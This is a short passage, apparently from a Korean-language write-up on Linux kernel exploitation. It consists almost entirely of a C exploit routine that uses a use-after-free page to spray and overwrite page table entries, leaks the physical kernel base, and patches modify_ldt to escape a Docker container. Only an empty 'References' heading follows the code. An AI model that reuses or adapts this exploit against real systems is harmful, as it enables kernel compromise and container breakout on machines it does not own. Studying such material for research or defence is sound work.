 ```c
  puts("[*] Test overlapped pipes");
  if (test_overlapped_pipes() < 0) {
    puts("    [-] Overlapping seems false positive");
    RETRY();
  }
  puts("    [+] Overlapping is true");

  puts("[*] Set pipe's offset to 0x1000 for reading PTEs");
  write(pipe_fds[victim_pipe_fds[0]][1], original_ptes, 0x1000);

  puts("[*] Spray PTEs...");
  spray_ptes_target_to_victim_pipe_page();

  puts("[*] Read PTEs");
  read(pipe_fds[victim_pipe_fds[0]][0], original_ptes, 0x1000);
  if ((original_ptes[0] & PTE_FLAGS_MASK) != 0x8000000000000867) {
    puts("    [-] UAF page does not contain PTEs");
    RETRY();
  }
  printf("    [+] UAF page contains PTEs (One of them is 0x%016lx)\n",
         original_ptes[0]);

  puts("[*] Overwrite PTE to leak physical kernel base");
  const uint64_t new_pte_for_dmabuf =
      PAGE_DEFAULT_FLAGS | 0x9c000;  // dmabuf..? WTF?!
  uint64_t *dmabuf_addr = (uint64_t *)set_pte(new_pte_for_dmabuf);

  find_corrupted_mmap_addr();
  if (corrupted_mmap_addr == (void *)-1) {
    puts("    [-] Corrupted mmap addr not found");
    RETRY();
  }
  printf("    [+] Corrupted mmap addr: %p\n", corrupted_mmap_addr);
  physical_kernel_base = (*dmabuf_addr & PTE_PFN_MASK) - 0x2004000ULL;
  printf("    [+] physical kernel base: 0x%016lx\n", physical_kernel_base);
  default_pte_for_kernel_code = physical_kernel_base | PAGE_DEFAULT_FLAGS;

  puts("[*] Escaping docker...");
  puts("    [*] Patch modify_ldt");
  patch_modify_ldt();
  puts("    [*] Call patched modify_ldt...");
  syscall(SYS_modify_ldt);
  puts("    [-] Failed to Escaping docker");

  get_enter_to_continue("Press enter to exit...");
  return 0;
}
```

## 참고 자료
